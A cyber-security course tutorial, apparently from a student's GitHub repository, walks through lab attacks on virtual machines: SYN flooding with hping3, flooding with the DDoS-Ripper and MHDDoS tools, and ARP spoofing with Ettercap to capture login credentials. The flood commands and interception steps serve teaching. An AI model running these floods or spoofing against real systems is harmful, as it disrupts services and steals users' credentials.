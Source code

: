 ## 1. Denial of Service Attacks

### 1.1 TCP flooding using hping3

hping3 is application which can test the networking and systems at the network and transport layers. The testing approach is based on the three-phase communication which is SYN, SYN-ACK and ACK. TCP SYN flood happens when this handshake doesn't complete properly.

- type `top` in owasp vm to see the system usage, keep this open while performing the TCP SYN flood.
    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img1.png">

- go to kali vm and type `sudo hping3 192.168.56.102 --flood -S -p 445 ` .
  
    |Parameter|Definition|
    |:----|:----|
    |-S|default TCP mode|
    |-p 445|Specify the destination port which is 445|
    |-flood| specify a high omission rate to enable flooding.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img2.png">
----------


### 1.2 Smurf DoS attack using DDos Ripper

This attack consists of sending a series of ICMP echo requests with a spoofed source IP address to the network broadcast address. Less effective against the modern systems.

- Clone the repo from `git clone https://github.com/palahsu/DDoS-Ripper.git
`
- Navigate to project `cd DDoS-Ripper` and type `python3 DRipper.py`
- Next we will flood the OWASP vm with ICMP packet request using the following command. `python3 DRipper.py -s 192.168.56.104 -t 445` after entering open the windows VM and navigate to the server page. `http://192.168.56.102/`. You will notice a slow in the server but it does not crash.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img3.png">

----------


### 1.3 MHDDos Attack Script With 51 Methods

This script can be use to stress test websites using different methods.
- Clone the repository `git clone https://github.com/MHProDev/MHDDoS.git`
- Navigate to project `cd MHDDos` and install the requirements `pip install -r requirements.txt
`, after run the script `python3 start.py`.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img4.png">

- Run this command to flood the OWASP vm with TCP packets request from 1 thread for 3600 seconds. `python3 start.py tcp 192.168.56.104 1 3600
`. Next if you open the windows VM and navigate through server page there will be a delay when loading the pages.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img5.png">


----------

### 1.4 Man in the Middle Attacks and Session Hijacking
- A Man in the Middle (MITM) attack is the type of attack in which the attacker sets themselves in the middle of the communication line between two parties, usually a client and a server.
- This is done by breaking the original channel and then intercepting messages from one party and relaying them (sometimes with alterations) to the other.

----------


### 1.5 Setting up a spoofing attack with Ettercap - ARP Spoofing

Address Resolution Protocol (ARP) spoofing is maybe the most common MITM attack out there. It is based on the fact that the Address Resolution Protocol—the one that translates IP addresses to MAC addresses—does not verify the authenticity of the responses that a system receives.

- Open a root terminal and run `sudo ettercap -G`
  <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img6.png">
- Click on the right top tick and continue. Now click on the left side top icon with servers. Here you can see list of hosts in your private network. (If you can't see the hosts, click on the search icon)
  
  <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img7.png">
- Select the target host which is the OWASP vm (192.168.56.102) as target 1.
  
  <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img8.png">

- Click on the right side top icon with global and select MITM option ARP poisoning and click OK.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img9.png">

- Now move on to the windows VM and navigate to 'Damn Vulnerable Web Application' page and enter some credentials. After Clicking login check the ettercap terminal. You can see the username and the password from there.

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img10.png">

    <img src="https://github.com/mr-desilva/6COSC019C-Cyber-Security/blob/main/Tutorial%204/images/img11.png">

